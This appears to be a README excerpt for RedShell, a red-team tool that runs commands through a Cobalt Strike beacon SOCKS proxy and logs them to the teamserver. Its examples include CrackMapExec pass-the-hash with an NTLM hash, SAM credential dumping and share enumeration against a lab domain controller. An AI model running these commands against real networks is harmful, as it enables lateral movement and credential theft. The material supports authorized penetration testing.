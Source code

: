 Check status:
```
RedShell> status

╔═══════════════════════╤════════════════════════════════════════════════════════════╗
║ CS team server status │ Connected via somedude_redshell@127.0.0.1:50050            ║
╟───────────────────────┼────────────────────────────────────────────────────────────╢
║ Socks port status     │ Connected via socks port 54212 @ beacon PID 7224           ║
╚═══════════════════════╧════════════════════════════════════════════════════════════╝
        
```

Execute commands through the beacon socks proxy. These can be run in the context of the current user or via sudo. Specifying 'proxychains' in the command is optional. Commands are forced through proxychains. MITRE ATT&CK Tactic IDs are optional. Including
```
RedShell> beacon_exec -h
usage: beacon_exec [-h] [-t TTP] ...

Execute a command through proxychains/beacon socks proxy and simultaneously log it to the teamserver.

positional arguments:
  command            Command to execute through the proxy.

optional arguments:
  -h, --help         show this help message and exit
  -t TTP, --ttp TTP  MITRE ATT&CK Tactic IDs. Comma delimited to specify multiple.

example:
beacon_exec -t T1003,T1075 cme smb --local-auth -u Administrator -H C713B1D611657D0687A568122193F230 --sam 192.168.1.1
```
```
RedShell> beacon_exec cme smb 192.168.1.14
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:48199  ...  192.168.1.14:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:48199  ...  192.168.1.14:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:48199  ...  192.168.1.14:445  ...  OK
SMB         192.168.1.14    445    TESTNET-DC1      [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:TESTNET-DC1) (domain:TESTNET) (signing:True) (SMBv1:True)

```
Note on passwords used in beacon_exec commands - special characters in passwords may be interpreted as shell meta characters, which could cause commands to fail. To get around this, set the password option and then invoke with '$password'. Example:
```
RedShell> set password Test12345
password - was: ''
now: 'Test12345'
RedShell> beacon_exec cme smb --local-auth -u administrator -p $password --shares 192.168.1.14
```
